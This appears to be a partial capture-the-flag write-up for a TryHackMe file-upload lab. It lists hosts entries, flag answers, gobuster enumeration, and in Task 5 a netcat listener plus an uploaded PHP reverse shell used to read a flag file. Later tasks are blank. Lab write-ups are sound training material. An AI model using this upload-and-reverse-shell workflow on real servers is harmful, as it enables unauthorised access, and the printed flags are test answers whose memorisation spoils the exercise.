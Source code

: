 # THM - Upload Vulnerabilities

<br>

```shell
echo "10.10.3.58    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm" | sudo tee -a /etc/hosts
```

<br>

## Task 4

### Task 4.1

> mountains.jpg

### Task 4.2

> THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}

<br>

## Task 5

🧰 https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

🧰 https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### Task 5.1

```shell
gobuster dir -u http://shell.uploadvulns.thm/ -w ../../Tools/KaliWordlists/dirbuster/directory-list-2.3-medium.txt | tee output01_gobuster.txt
```

> /resources

### Task 5.2

```shell
nc -lvnp 9876
```

http://shell.uploadvulns.thm/resources/php-reverse-shell.php

```shell
cd /var/www
ls
cat flag.txt
```
> THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}

<br>

## Task 6

### Task 6.1

> 

### Task 6.2

> 

### Task 6.3

> 

<br>

## Task 7

### Task 7.1

> 

<br>

## Task 8

### Task 8.1

> 

<br>

## Task 9

### Task 9.1

> 

<br>

## Task 11

### Task 11.1

> 


